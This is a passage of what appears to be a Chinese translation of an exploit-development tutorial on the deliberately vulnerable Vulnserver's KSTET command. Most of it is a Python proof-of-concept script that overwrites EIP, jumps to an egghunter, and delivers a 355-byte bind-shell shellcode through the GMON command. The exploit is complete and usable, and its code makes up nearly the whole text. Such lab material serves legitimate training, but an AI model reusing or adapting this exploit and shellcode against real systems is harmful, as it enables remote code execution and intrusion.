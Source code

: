 然而，这样做的一个问题是在`KSTET`命令中没有合适的地方添加外壳代码。

一次巡视中，我发现它利用了另一个命令。所以我们可以使用之前`vulnserver`系列中的`GMON`命令漏洞利用( [[ExpDev] Vulnserver —第 3 部分](https://medium.com/@bigb0ss/expdev-vulnserver-part-3-24859bd31c0a))。

## 第三阶段外壳代码(最终漏洞)

最后，让我们看看 PoC 脚本。

```
**###** [**Final_kstet.py**](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/KSTET%20-%20EIP%20Overwrite/final_kstet.py) **(Source by bigb0ss)**import socket
import struct
import os
import sysvuln_command = "KSTET "
crash = 94
offset = 70
eip = struct.pack("<I", 0x62501205)                 **# JMP ESP****# 1st Stage (Short JMP)**
short_jmp = "\x83\xC0\x06\xFF\xE0"**# 2nd Stage (Egghunter)**
egghunter = ""
egghunter += "\x90\x66\x81\xca\xff\x0f\x42\x52"
egghunter += "\x6a\x02\x58\xcd\x2e\x3c\x05\x5a"
egghunter += "\x74\xef\xb8\x54\x30\x30\x57\x8b"
egghunter += "\xfa\xaf\x75\xea\xaf\x75\xe7\xff"
egghunter += "\xe7"**# 3rd Stage (Egg + Bind Shell)**
buf = ""
buf += "GMON /"
buf += "T00WT00W"                                  **# Egg**
buf += "\x90" * 10
**# Bind Shell (355 Bytes)**
buf += "\xda\xc8\xb8\xaa\xa0\x38\x73\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x53\x31\x42\x17\x83\xc2\x04\x03\xe8\xb3\xda"
buf += "\x86\x10\x5b\x98\x69\xe8\x9c\xfd\xe0\x0d\xad\x3d\x96"
buf += "\x46\x9e\x8d\xdc\x0a\x13\x65\xb0\xbe\xa0\x0b\x1d\xb1"
buf += "\x01\xa1\x7b\xfc\x92\x9a\xb8\x9f\x10\xe1\xec\x7f\x28"
buf += "\x2a\xe1\x7e\x6d\x57\x08\xd2\x26\x13\xbf\xc2\x43\x69"
buf += "\x7c\x69\x1f\x7f\x04\x8e\xe8\x7e\x25\x01\x62\xd9\xe5"
buf += "\xa0\xa7\x51\xac\xba\xa4\x5c\x66\x31\x1e\x2a\x79\x93"
buf += "\x6e\xd3\xd6\xda\x5e\x26\x26\x1b\x58\xd9\x5d\x55\x9a"
buf += "\x64\x66\xa2\xe0\xb2\xe3\x30\x42\x30\x53\x9c\x72\x95"
buf += "\x02\x57\x78\x52\x40\x3f\x9d\x65\x85\x34\x99\xee\x28"
buf += "\x9a\x2b\xb4\x0e\x3e\x77\x6e\x2e\x67\xdd\xc1\x4f\x77"
buf += "\xbe\xbe\xf5\xfc\x53\xaa\x87\x5f\x3c\x1f\xaa\x5f\xbc"
buf += "\x37\xbd\x2c\x8e\x98\x15\xba\xa2\x51\xb0\x3d\xc4\x4b"
buf += "\x04\xd1\x3b\x74\x75\xf8\xff\x20\x25\x92\xd6\x48\xae"
buf += "\x62\xd6\x9c\x5b\x6a\x71\x4f\x7e\x97\xc1\x3f\x3e\x37"
buf += "\xaa\x55\xb1\x68\xca\x55\x1b\x01\x63\xa8\xa4\x2c\xcf"
buf += "\x25\x42\x44\x3f\x60\xdc\xf0\xfd\x57\xd5\x67\xfd\xbd"
buf += "\x4d\x0f\xb6\xd7\x4a\x30\x47\xf2\xfc\xa6\xcc\x11\x39"
buf += "\xd7\xd2\x3f\x69\x80\x45\xb5\xf8\xe3\xf4\xca\xd0\x93"
buf += "\x95\x59\xbf\x63\xd3\x41\x68\x34\xb4\xb4\x61\xd0\x28"
buf += "\xee\xdb\xc6\xb0\x76\x23\x42\x6f\x4b\xaa\x4b\xe2\xf7"
buf += "\x88\x5b\x3a\xf7\x94\x0f\x92\xae\x42\xf9\x54\x19\x25"
buf += "\x53\x0f\xf6\xef\x33\xd6\x34\x30\x45\xd7\x10\xc6\xa9"
buf += "\x66\xcd\x9f\xd6\x47\x99\x17\xaf\xb5\x39\xd7\x7a\x7e"
buf += "\x59\x3a\xae\x8b\xf2\xe3\x3b\x36\x9f\x13\x96\x75\xa6"
buf += "\x97\x12\x06\x5d\x87\x57\x03\x19\x0f\x84\x79\x32\xfa"
buf += "\xaa\x2e\x33\x2f"
buf += "\x90" * 20payload = ""
payload += vuln_command
payload += "\x90" * 5
payload += egghunter
payload += "A" * (offset - 5 - len(egghunter))
payload += eip
```